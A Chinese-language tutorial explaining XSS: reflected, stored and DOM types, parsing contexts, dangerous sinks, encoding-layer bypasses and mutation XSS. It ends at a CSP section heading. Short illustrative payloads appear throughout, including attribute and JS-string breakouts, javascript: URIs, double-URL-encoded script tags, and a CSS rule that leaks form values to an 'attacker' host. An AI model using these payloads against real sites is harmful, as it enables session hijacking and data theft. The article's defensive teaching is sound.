



# Web与应用层安全（5）· XSS跨站脚本

> [!abstract] TL;DR
> - XSS的本质是浏览器在"解析"这件事上把数据误当成了代码：反射型、存储型、DOM型三个名字描述的是恶意数据抵达这条解析边界所走的路径不同，而不是漏洞机理本身不同，理解了这一点就不必把三型当成三种孤立的漏洞去死记硬背。
> - 反射型与存储型的战场在服务端拼接输出的那份HTML里，view-source能看见payload；DOM型的战场完全在浏览器执行JS之后形成的运行时DOM树里，view-source往往干干净净，必须靠Elements面板和sink断点才能定位。
> - 防御唯一站得住的根本解是"上下文相关的输出编码"——HTML正文、HTML属性、JS字符串、CSS、URL五种上下文各自要用专属编码函数，用HTML转义去处理JS字符串上下文完全无效；输入校验、CSP、HttpOnly都只是纵深防御的辅助层，谁也替代不了输出编码这一层。
> - HTML解析器不是幂等函数（parse(serialize(parse(x))) 不等于 parse(x)）是Mutation XSS（mXSS）的根源，也是DOMPurify这类净化器必须"先用DOM解析再清洗再序列化"而不是做正则字符串替换的原因；Trusted Types则进一步把"这段字符串是否已被净化"从编码规范升级成浏览器运行时强制检查的类型系统问题。
> - 同源策略在XSS场景里不是屏障而是帮凶：注入脚本运行在受害站点自己的源下，天然继承该源的Cookie、localStorage与发起同源请求的资格，这正是XSS能够劫持会话、静默代替用户发起操作的结构性原因，也是它常年被评为影响面最广的Web漏洞类别之一的根本原因。
> - "用了React/Vue就天然免疫XSS"是最常见的误区之一：框架默认自动转义只覆盖"文本节点插值"这一条路径，`dangerouslySetInnerHTML`/`v-html`/`href`里的`javascript:`伪协议等逃生舱依然是活跃的DOM XSS入口。

## 概述与定位

XSS（Cross-Site Scripting，跨站脚本）这个名字本身就是一段值得讲清楚的历史包袱：它原本应该缩写成CSS，但那三个字母早被层叠样式表占用，为了避免混淆，安全社区在上世纪90年代末改用了X这个不那么常见的字母开头，"跨站"（Cross-Site）这个定语描述的是最初被发现的那一类场景——攻击者让浏览器在渲染站点A的页面时，执行了本不该属于站点A、而是攻击者注入进来的脚本，效果上像是"借站点A的身份跑了一段外来代码"。这个命名在反射型XSS上还算贴切，但放到存储型和DOM型上就显得不那么精确了：一条恶意评论存进自己站点的数据库、再被自己站点的正常页面渲染出来，整个过程并没有真正"跨"到别的站点去，本质上是同一个站点自己没有守住数据与代码的边界。尽管名不副实，这个术语还是沿用了下来，成为了"任何允许攻击者在受害者浏览器里、以受害站点身份执行任意脚本"这一大类漏洞的统称。

把XSS放进本系列的坐标系里看，它在OWASP Top 10的历史沿革本身就很说明问题：早期版本里XSS长期单独成条（如2013版的A3），但2021版之后被并入了范围更大的A03 Injection大类。这次合并不是编号腾挪那么简单，而是官方明确承认了一个此前隐含的事实——XSS在攻击模式上和[[04.注入类漏洞：SQL与命令与模板|SQL注入、命令注入、模板注入]]是同构的：都是"本应作为纯数据处理的用户输入，因为拼接方式不当，被目标解析器重新解读成了可执行的代码"，唯一的区别是目标解析器不同。SQL注入攻击的是数据库引擎的SQL解析器，命令注入攻击的是Shell解释器，模板注入攻击的是模板引擎自身的表达式求值器，而XSS攻击的是浏览器的HTML tokenizer、DOM树构建器与JavaScript引擎这一整条渲染流水线。理解了这层同构关系，本篇很多小节读者会觉得似曾相识——这是有意为之，注入类漏洞的方法论本就应该可以在不同"目标语言"之间迁移，本篇只负责把这套方法论在"浏览器"这个目标解析器上重新过一遍。

XSS与本系列另外两篇的边界也需要提前划清，避免内容重复。[[03.同源策略与CORS与CSP|03篇]]讲的是同源策略（SOP）本体与内容安全策略（CSP）的完整指令集、跨域场景与配置规则，是"浏览器安全模型"这一层的机制说明；本篇会在"安全性与正确使用"一节谈到CSP，但只从"如何作为XSS的纵深防御第二层来配置"这个实战切面切入，不重复03篇已经讲透的CSP指令语法与绕过原理。同样，本篇也会用到同源策略的结论——注入脚本之所以危险，恰恰是因为它运行在受害域自己的源里，同源策略保护的正是这个源下的资源，而payload刚好就注入在这个源的内部，SOP在这个场景里帮不上忙，反而变成了替攻击代码背书的机制，这一点会在"原理与机制"一节展开。

从演进的视角看，XSS的攻击面从未真正缩小过，只是形态一直在变。Web 1.0时代的留言板、访客留言簿是最早的重灾区，攻击手法直白到只需要一个裸的`<script>`标签；Web 2.0阶段随着AJAX与富文本编辑器普及，存储型XSS开始成为"黄金漏洞"，一条评论能打中所有浏览该页面的用户；移动互联网与单页应用（SPA）兴起后，前端接管了越来越多原本由服务端模板完成的DOM拼接工作，`innerHTML`、`document.write`一类危险API被大量框架和第三方脚本库直接或间接调用，DOM型XSS取代了前两者成为当下最主流也最难被传统代码审计工具发现的形态。这条演进线也解释了为什么XSS至今仍然常年占据漏洞赏金平台提交量的第一梯队：HTML、CSS、JavaScript本身仍在持续新增标签、事件、API（Web Components、Shadow DOM、新的CSS函数），每一次标准演进都在给这类漏洞的"防御表面"添砖加瓦，而防御方必须穷尽所有分支才算安全，攻击方只需要找到一个被遗漏的分支——这正是[[01.Web安全全景与威胁模型|01篇]]讲到的攻防不对称在XSS这个具体门类上的直接体现。

## 原理与机制

### 浏览器解析流水线：代码与数据的分界线在哪里

要理解XSS为什么能发生，必须先理解浏览器把一份HTTP响应体变成可交互页面要经过的几个阶段。字节流先经过编码检测被解码成字符流，字符流被送入HTML分词器（Tokenizer），分词器是一台按照WHATWG HTML标准精确定义的有限状态机，它逐字符地在"数据状态（Data state）""标签开始状态（Tag open state）""属性值状态（Attribute value state）""脚本数据状态（Script data state）"等几十个状态之间跳转，每个状态下同一个字符会被赋予完全不同的含义——比如`<`在数据状态下意味着"标签可能要开始了"，但在脚本数据状态内部，`<`只是脚本源码里一个普通字符，分词器不会因为它而尝试解析新标签，唯一能让分词器跳出脚本数据状态的信号是形如`</script`的结束标签序列。这台状态机的输出是一串Token，Token被送入树构建（Tree Construction）阶段组装成DOM树，DOM树构建完毕、遇到脚本节点时，浏览器会暂停解析把控制权交给JavaScript引擎执行其中的代码。

这条流水线揭示了XSS的本质：**它不是某个函数没做校验这么简单的Bug，而是"用户可控的数据"和"分词器/JS引擎判定为代码的内容"这两个本应互斥的集合，在某个环节被工程实现不小心合并到了一起**。数据状态和脚本数据状态是两个完全不同的解析上下文，一段用户输入究竟会被当成文本渲染出来，还是被当成新标签、新脚本执行，只取决于它被拼接进输出时分词器当时处于哪个状态——这也是为什么本篇第三节要用整整一节篇幅去逐一拆解"HTML上下文、属性上下文、JS字符串上下文、URL上下文、CSS上下文"，因为脱离具体上下文空谈"如何防御XSS"是没有意义的，防御手段必须和注入点当时所处的解析状态一一对应。

### 反射型XSS：请求即武器，响应即战场

反射型XSS（Reflected XSS）指用户输入通过URL参数、表单字段等请求要素被提交给服务端后，未经恰当编码就被直接拼接进本次HTTP响应的HTML中并原样返回。它的核心特征是**非持久化**：恶意payload不会被服务端存储下来，只存在于这一次请求—响应的往返里，因此攻击者必须先构造出一条携带payload的特制链接，再通过钓鱼邮件、即时通讯消息、短链接、二维码等社会工程手段诱导受害者主动点击，一旦受害者不点这条链接，攻击就不会触发。典型的脆弱场景包括搜索结果页把搜索关键词原样回显在"您搜索的是……"提示里、报错页面把非法参数值嵌入错误描述、登录跳转页面把`redirect`参数值原样打印用于展示"即将跳转到……"提示。

```mermaid
sequenceDiagram
    participant At as 攻击者
    participant Vi as 受害者浏览器
    participant Sv as 目标服务器<br/>example.com

    At->>At: 构造含payload的URL<br/>example.com/search?q=&lt;script&gt;...&lt;/script&gt;
    At->>Vi: 钓鱼邮件/短链诱导点击
    Vi->>Sv: GET /search?q=&lt;script&gt;...
    Sv-->>Vi: 响应HTML中原样回显q参数<br/>未做输出编码
    Vi->>Vi: 分词器解析响应<br/>识别出新的script标签
    Vi->>Vi: JS引擎执行payload<br/>此时脚本运行在example.com源下
    Vi->>At: 携带document.cookie的请求<br/>发送到攻击者服务器
    At->>Sv: 用窃取到的会话凭证<br/>冒充受害者发起请求
```

这张时序图里最关键的一步是"脚本运行在example.com源下"：因为浏览器判断脚本执行权限的唯一依据是当前文档的源（Origin），而不是这段脚本的"血统"来自哪里，所以哪怕payload的字符串是攻击者写的，一旦它被浏览器解析成了example.com返回文档里的一段脚本，它就获得了和example.com自己写的脚本完全相同的权限——能读该域下的`document.cookie`（若无HttpOnly）、能操作该域的DOM、能以受害者当前登录状态向该域发起同源请求。这就是本篇TL;DR里强调"同源策略是帮凶"的具体含义：SOP确保了"只有example.com的脚本才能碰example.com的资源"，但SOP从不检查一段脚本的作者是谁，它只看这段脚本当前运行在哪个源下——而这恰恰是XSS绕开SOP防线的关键，攻击代码不需要"跨"过同源策略，它直接被合法地放进了被保护的那一侧。

### 存储型XSS：一次注入，长期收割

存储型XSS（Stored XSS，也叫Persistent XSS）与反射型的核心差异在于持久化：恶意输入被服务端写入数据库、文件系统或日志系统等持久化存储，此后任何一次读取并渲染这份被污染数据的请求都会触发脚本执行，攻击者不再需要诱导受害者点击任何特制链接——只要受害者访问了包含该数据的正常页面，就会中招。典型场景包括评论区正文、用户昵称与个人签名、私信与工单系统、简历/头像上传时携带的文件名或元数据（比如藏在SVG文件`<script>`节点或图片EXIF字段里的payload）。存储型XSS的危害面通常远大于反射型，因为它不依赖社工诱导、影响的用户数量和数据被浏览的次数成正比，而且往往更难在事后溯源——受害者说不清自己是"点了哪条链接"中招的，因为他只是正常浏览了页面。

存储型XSS还有一种更隐蔽的变体值得单独强调，通常称为"二阶存储型XSS"或者行业里俗称的"盲打"（Blind XSS）：payload被写入的字段和最终触发渲染的界面并不是同一个。比如客服工单系统里用户填写的"问题描述"字段，前台用户自己永远看不到payload生效，因为前台展示逻辑做了正确的转义；但当客服人员登录内部管理后台查看工单详情时，后台系统用了另一套渲染逻辑（可能是完全不同的代码路径、甚至是另一个历史遗留系统），没有做同等强度的输出编码，payload就在客服或管理员的会话下执行了。这种攻击链条完全符合[[01.Web安全全景与威胁模型|01篇STRIDE框架]]里对Tampering引发连锁Information Disclosure/Elevation of Privilege的描述——数据在写入时看似只是普通业务数据（篡改的是数据这条流），但在另一个信任级别更高的读取端被当成代码执行，直接威胁到了高权限账户的会话安全，这也是"工具视角"一节要专门介绍Blind XSS检测工具的原因：这类漏洞在攻击者自己的浏览器里永远看不到任何回显，必须依赖带外（Out-of-Band）的回连机制才能确认。



### DOM型XSS：战场完全搬进了浏览器

DOM型XSS（DOM-based XSS）是三型中机制上最独特的一种：它的完整攻击链条不需要服务端参与拼接出"带毒"的HTML，甚至服务端返回的原始HTML可能完全干净、经得起任何服务端代码审计——问题出在浏览器执行JavaScript之后，脚本自己把一段可被攻击者控制的数据，传递给了一个能触发脚本执行的危险API。描述这条链条最常用的词汇是**源（Source）**和**汇（Sink）**：源是攻击者能够影响其取值的输入点，常见的有`location.hash`、`location.search`、`document.referrer`、`window.name`、`postMessage`收到的消息、`localStorage`/`sessionStorage`中被其他渠道污染过的值；汇是接收字符串并可能导致其被当作HTML或脚本解析执行的危险API，常见的有`innerHTML`/`outerHTML`、`document.write`/`document.writeln`、`insertAdjacentHTML`、`eval`、`Function`构造器、`setTimeout`/`setInterval`的字符串重载形式，以及`location`赋值这类会触发`javascript:`伪协议求值的导航类API。当一条数据从源流向汇、中间没有经过符合当前汇所在上下文要求的编码或校验，DOM型XSS就成立了。



DOM型XSS和前两型最大的实践差异体现在"能不能被查看网页源代码发现"上：反射型和存储型的payload最终会出现在服务端返回的HTML响应体里，右键"查看网页源代码"（view-source）能直接看到；而DOM型XSS的注入点是浏览器执行JS之后动态生成的DOM树，view-source看到的永远是干净的原始HTML，只有打开开发者工具的Elements面板检视运行时DOM树、或者在Sources面板对可疑sink打断点，才能观察到问题——这个差异不是细枝末节，它直接决定了传统只抓取HTTP响应做正则匹配的黑盒扫描器为什么天然对DOM型XSS失明，也是"工具视角"一节要强调必须用能真正执行JS的无头浏览器做动态检测的原因。此外，现代前端工程普遍依赖大量第三方npm包，一个深藏在某个工具库内部的`innerHTML`调用，主项目代码里完全看不出痕迹，这也让DOM型XSS天然比另外两型更难通过纯人工代码审查穷尽，静态污点分析工具的价值在这个场景下被进一步放大，相关内容会在"工具视角"一节展开。

### 三型对比与信任边界回顾

把三种类型放在同一张表里对比，能更清楚地看出它们只是"同一个漏洞机理在不同管线位置的三种表现"：

| 维度 | 反射型 | 存储型 | DOM型 |
|---|---|---|---|
| payload是否持久化 | 否，仅存在于单次请求响应 | 是，写入数据库/文件等持久层 | 视具体source而定，链接参数类不持久化 |
| 是否需要诱导点击特制链接 | 需要 | 通常不需要，被动触发 | 多数需要（如`#`片段类source），也有不需要的 |
| 服务端是否参与拼接"带毒"响应 | 是 | 是 | 否，或者说服务端返回的HTML本身是干净的 |
| view-source能否看到payload | 能 | 能 | 通常不能 |
| 典型检测手段 | 请求响应比对、DAST扫描 | 存储层数据回读检测、Blind XSS带外回连 | 动态渲染后的DOM快照比对、污点分析 |

值得强调的是，这张表格里的"服务端/浏览器"分野，本质上呼应的正是[[01.Web安全全景与威胁模型|01篇]]提出的信任边界模型——反射型和存储型跨越的信任边界发生在"用户输入→服务端拼接输出"这一环，DOM型跨越的信任边界则完全收缩到了"浏览器内某个可控数据源→浏览器内某个危险API"这一环，边界的位置变了，但"跨越边界的数据必须重新校验"这条铁律没有变。另外需要简单交代边界之外的两个近亲概念，避免混淆：Self-XSS指攻击者诱导受害者自己在浏览器控制台粘贴并执行一段恶意脚本，本质是纯社会工程，不涉及任何应用层代码缺陷，现代浏览器已经在控制台加入了醒目的警告文案来减少这类欺骗的成功率；Universal XSS（UXSS）指浏览器自身实现存在缺陷，导致原本应该遵守同源策略的场景发生了跨域脚本执行，这属于浏览器厂商需要修复的产品漏洞而非Web应用漏洞，不在本系列讨论范围内，这里点出只是为了帮读者把"XSS"这个词在不同语境下的所指范围划分清楚。

## 攻击向量与执行上下文详解

上一节反复强调"上下文决定payload形态"，本节把这句话拆成六个具体的解析上下文逐一展开，这也是XSS区别于其他注入类漏洞、防御表面格外庞大的根源——SQL注入只需要考虑"是不是在SQL语句里"这一种上下文，而XSS的载体HTML本身就嵌套了HTML、属性、JS、CSS、URL五种语法体系，每一种都有自己独立的转义规则，任何一处用错编码函数都会开一个口子。

### HTML标签之间的上下文

最基础也最容易理解的注入点是输出直接落在两个标签之间，比如`<div>{用户输入}</div>`。这里分词器处于数据状态，任何`<`都会被当作新标签的开始，因此最直白的payload是`<script>...</script>`；但真实场景里很多过滤器只针对`<script`这个特征字符串做黑名单匹配，却漏掉了HTML5大量新增的、自带事件属性的标签，比如``（图片加载失败时触发）、`<svg onload=...>`（SVG元素加载完成时触发）、`<body onpageshow=...>`、`<video><source onerror=...></video>`。这类payload能绕过"只挡script标签"的黑名单，根源在于浏览器判断"要不要执行一段代码"的依据从来不是标签名叫不叫script，而是这个标签的这个属性是不是HTML规范里定义的事件处理器（Event Handler Content Attribute）——HTML规范里以`on`开头的事件属性有一百多个，黑名单式过滤器想要穷尽是不现实的，这也是本节后面会反复出现的"黑名单必输，白名单才可持续"这一结论的第一个例证。

### HTML属性值内的上下文

当用户输入被拼接进某个属性的值里，比如`<input value="{用户输入}">`，分词器此时处于属性值状态，`<script>`标签在这个位置写进去并不会被当成新标签解析（因为分词器还在等待属性值结束），攻击者必须先想办法让分词器"跳出"当前属性、乃至跳出当前标签，才能引入新的可执行结构。如果输出端用双引号包裹属性值，`" onmouseover="alert(1)`这样的输入会先闭合掉原来的引号，再新增一个事件属性；如果原始代码里属性值根本没有加引号（HTML语法允许无空格的属性值省略引号），甚至不需要闭合引号，直接用空格分隔就能追加新属性，例如把输入设为`x onfocus=alert(1) autofocus`，靠`autofocus`触发聚焦事件、`onfocus`挂载执行代码，全程不需要用到任何尖括号。这种"新增属性而不新增标签"的手法之所以格外阴险，是因为很多输出编码只转义了尖括号`<>`（针对"新增标签"这一种威胁模型设计），却没有对引号做转义（因为设计者当时假设"反正引号会被HTML属性的引号包裹住"），一旦这个假设因为大小写、单双引号不一致等实现细节被打破，攻击面就打开了。

### JavaScript字符串上下文

这是最容易被开发者用错编码函数的一类上下文。设想服务端渲染出`<script>var username = "{用户输入}";</script>`，看起来输出点仍然"身处HTML文档内部"，很多开发者会下意识地套用HTML转义函数处理这个字段，把`<`转成`&lt;`、把`>`转成`&gt;`。但根据上一节讲过的分词器状态机原理，一旦解析进入了`<script>`标签内部的脚本数据状态，分词器就已经不再逐字符地按HTML规则解释内容，`&lt;`不会被当成HTML实体解码——因为实体解码本来就是数据状态特有的行为，脚本数据状态里的字符原样交给JS引擎处理，所以这里真正危险的字符根本不是尖括号，而是能闭合JS字符串字面量的引号本身。真正有效的payload是`";alert(document.domain);//`，先用引号闭合掉原字符串，插入一条新语句，再用`//`把原字符串剩余部分（那个本应闭合字符串和语句的引号分号）注释掉。这类漏洞的根因可以归纳成一句话：**开发者把"输出点在不在HTML里"和"输出点当前处于哪个解析状态"这两件事混为一谈了**，选对上下文相关的编码函数（这里应该用JS字符串转义而不是HTML转义）远比"看起来像不像HTML"更重要，这一原则在下一节讲防御时会以OWASP Cheat Sheet的形式重新出现。

### URL与伪协议上下文

当用户可控的值被拼接进`<a href="{用户输入}">`或类似的URL属性时，即便开发者已经严格转义了引号和尖括号防止跳出属性，攻击者依然可以利用`javascript:`伪协议在协议层面而非HTML语法层面完成注入——`javascript:alert(document.domain)`本身不含任何HTML特殊字符，却能在用户点击该链接时让浏览器把冒号后面的内容整体作为JS代码执行。`data:`URI是另一种同类思路，它能携带一份完整的、自带`<script>`的HTML文档（如`data:text/html;base64,...`），当这个URI被赋值给能触发导航或者渲染的属性（`iframe.src`、`object.data`）时会被当成完整文档解析。现代浏览器出于对这类滥用的长期治理，已经对顶层窗口直接导航到`data:`文档施加了限制，但URL/伪协议上下文的核心教训不因具体限制变化而改变：**任何接受URL的属性，光转义HTML特殊字符是不够的，还必须对协议部分做白名单校验**（只允许`http:`、`https:`、`mailto:`等预期协议，拒绝`javascript:`、`data:`等可执行协议），这也是本篇后面会提到的DOMPurify等净化库为什么专门维护协议白名单的原因。

### CSS上下文

CSS注入触发的执行能力弱于前几类，但仍然值得放进同一张地图。历史上IE曾经支持`expression()`这一CSS表达式扩展，允许在CSS属性值里直接写JS表达式并被动态求值，是当年CSS注入能直接等价于代码执行的罕见案例，现代浏览器早已移除这一特性；今天更常见的CSS层面风险来自`url()`函数引入外部资源造成的被动信息泄露（比如用CSS属性选择器`input[value^="a"]`结合`background: url(http://attacker/?leak=a)`按字符窃取表单里逐位输入的敏感值），这类手法通常被归入"CSS注入"或者广义的数据渗出（Exfiltration）技巧讨论，虽然不是"执行任意JS"意义上的XSS，但危害同样是让攻击者能读取本不该被读取的数据，原理上仍然是"用户可控内容被当作CSS规则解析"这同一类信任边界失守问题。

### DOM sink 的系统性分类

结合上一节source/sink的概念，把浏览器里常见的危险sink按"引发后果的方式"归类，能帮助建立系统性的排查清单，而不是死记硬背某几个API名字：

| sink分类 | 代表性API | 触发方式 |
|---|---|---|
| 直接执行类 | `eval`、`new Function(...)`、`setTimeout`/`setInterval`的字符串参数重载 | 字符串被当作JS源码直接求值 |
| HTML注入类 | `innerHTML`、`outerHTML`、`document.write`/`writeln`、`insertAdjacentHTML` | 字符串被当作HTML片段重新走一遍分词器解析 |
| 属性/特性类 | 元素`on*`事件属性的脚本化赋值、`iframe.srcdoc` | 赋值内容被浏览器当作事件处理代码或内联文档 |
| 导航类 | `location`/`location.href`/`location.assign`/`window.open` | 赋值内容若以`javascript:`开头会被当作代码执行 |
| 历史遗留类 | jQuery旧版本的`$(userInput)`选择器兼容HTML片段解析、`.html()` | 库内部封装了上面几类原生sink，使用者容易忽略其危险性 |

这张表最重要的启示是：直接执行类和HTML注入类是"重灾区"，理应在代码评审、ESLint规则、CodeQL污点分析规则里被列为一等公民重点关照的对象；而历史遗留类的存在提醒我们，危险sink不一定以"看起来很危险"的名字出现在自己的代码里，它经常被一层友好的库函数包裹，写代码的人未必意识到自己在调用一个危险sink——这也是为什么单纯靠"人工记住哪些函数危险"这种方法论天然不可持续，需要自动化工具兜底的原因，相关内容在"工具视角"一节展开。

### 编码、解码与"层数不对齐"的绕过本质

几乎所有编码相关的绕过手法，本质上都可以归结为同一件事：**净化/过滤逻辑发生的解码层数，和浏览器实际执行时经过的解码层数对不齐**。一份数据从进入系统到被浏览器执行，可能会经过URL百分号解码（服务器或Web容器）、HTML实体解码（分词器的数据状态）、JS转义序列解码（JS引擎的词法分析阶段）等多轮不同层次的解码，任何一轮解码都可能让一段原本"看起来无害"的字符序列变成攻击者真正想要的字符。举例说明这个原理：如果过滤逻辑在Web容器完成一次URL解码之后才检查是否包含`<script`，那么把payload多编码一层写成`%253Cscript%253E`（`%25`是`%`自身的URL编码），容器只解码一次得到`%3Cscript%3E`，过滤器看到的仍然是编码后的形式而不会命中黑名单，但如果后续还有一层代码或框架会对同一份数据再做一次URL解码，`%3Cscript%3E`就会被还原成真正的`<script>`并被当作HTML解析——攻击者要做的只是让"过滤检查发生的解码轮次"落后于"最终被浏览器/框架消费时经过的解码轮次"。同样的原理也适用于HTML实体编码（`&#60;`十进制、`&#x3C;`十六进制、`&lt;`命名实体三种写法在分词器眼里等价，但正则过滤器如果只匹配了尖括号字面量或者只匹配了命名实体，会漏掉另外两种数值形式）、JS里的`<`/`\x3C`转义序列、以及各类Base64/URL双重编码的组合。这条原理讲清楚之后，本节不再逐一列举具体绕过某个真实产品或WAF规则的成品配方——原因是这类配方时效性极短、且极易被滥用于武器化真实目标，而"层数不对齐"这条原理本身才是可以长期复用、指导防御设计（防御的正确姿态是保证过滤/编码发生在所有解码都完成之后的最终输出点，而不是猜测中间可能经过几层解码）的知识。

### 过滤器绕过的方法论总览

在"层数不对齐"这条核心原理之外，还有几类不依赖编解码差异、纯粹利用HTML/JS语法灵活性的绕过思路，同样值得作为方法论理解，而不是记住具体字符串：标签名与属性名在HTML里是大小写不敏感的，`<ScRiPt>`和`<script>`对分词器完全等价，只做大小写敏感匹配的过滤器形同虚设；属性之间的分隔符不限于空格，制表符、换行符在HTML语法里同样合法，只用空格做正则切分会被绕过；HTML分词器面对不规范的标记有一整套"错误恢复"算法（比如遇到未闭合的标签会尝试隐式闭合、某些标签存在特殊的父子关系重排规则），这套为了兼容历史上大量不规范网页而设计的容错机制，本身经常成为构造非常规但依然合法的解析路径的切入点；此外，黑名单枚举永远存在"棋差一着"的结构性劣势——只要HTML/CSS/JS标准还在新增标签和事件（比如较新的`ontoggle`、`onbeforetoggle`），依赖枚举维护的黑名单就必然存在滞后窗口。这几条方法论共同指向同一个工程结论，也是本篇会在"安全性与正确使用"一节重点展开的：**基于黑名单的过滤永远是被动的、有上限的防御，只有让"安全"成为默认状态的白名单/自动编码机制，才能覆盖标准演进带来的新增攻击面**。

### Mutation XSS：解析器不是幂等函数

Mutation XSS（简称mXSS）是一类机理更精巧的DOM型XSS变体，由Mario Heiderich等研究者在2013年前后系统提出并命名。它的成立条件是：一段payload在第一次被送入净化器（Sanitizer）时是无害的、能顺利通过白名单检查，但净化后的结果在被赋值给`innerHTML`之类的sink、由浏览器重新解析为真实DOM、又在某个后续环节被reserialize回字符串（常见于净化器自身的实现方式——用浏览器原生解析器把输入解析成一棵DOM子树，再遍历这棵树按规则清洗，最后调用序列化方法把清洗后的DOM重新变回字符串）时，HTML解析器在"解析—序列化"这一来一回的过程中的某些实现细节（比如属性引号的规范化方式、命名空间边界的处理、特定几个历史遗留标签在不同解析上下文里语义不同）会让本来良性的结构"变异"出新的可执行标签或属性。用一句更抽象的话概括mXSS的根因：**HTML解析器不是一个幂等函数**，也就是说对任意输入`x`，`parse(serialize(parse(x)))`不一定等于`parse(x)`，只要净化流程里存在"解析—序列化—再次解析"这样的多轮往返，理论上就存在mXSS的可能性，这也是为什么本篇后面介绍DOMPurify时会特别强调它的设计选择——用DOM解析代替正则字符串替换本身是为了从根源规避mXSS，但DOMPurify的历史版本依然多次修补过与之相关的绕过案例，恰恰反过来印证了"安全地清洗富文本"这件事有多困难。

### CSP在注入链路上的定位（与03篇的分工）

